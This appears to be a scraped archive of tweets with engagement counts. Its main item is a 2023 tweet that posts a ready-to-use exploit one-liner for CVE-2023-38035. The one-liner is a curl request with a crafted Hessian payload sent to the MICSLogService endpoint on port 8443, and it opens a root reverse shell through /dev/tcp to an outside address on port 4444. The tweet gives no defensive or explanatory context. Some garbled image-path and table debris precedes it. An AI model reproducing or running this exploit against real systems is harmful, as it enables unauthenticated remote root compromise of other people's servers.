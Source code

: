 </table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>243</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1697698233424674861 _at 2023-09-01, 19:49:35_**
<blockquote>
CVE-2023-38035:

curl -kv https://RHOST:8443/mics/services/MICSLogService -H "Content-Type: application/x-hessian" --data-binary @&lt;(printf "c\x01\x00m\x00\x18uploadFileUsingFileInputMS\x00\x07commandS\x00\x30sudo bash -c bash&amp;&gt;/dev/tcp/192.168.56.1/4444&lt;&amp;1S\x00\x06isRootTzNz")
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>124</code></td>
</tr></table>

---

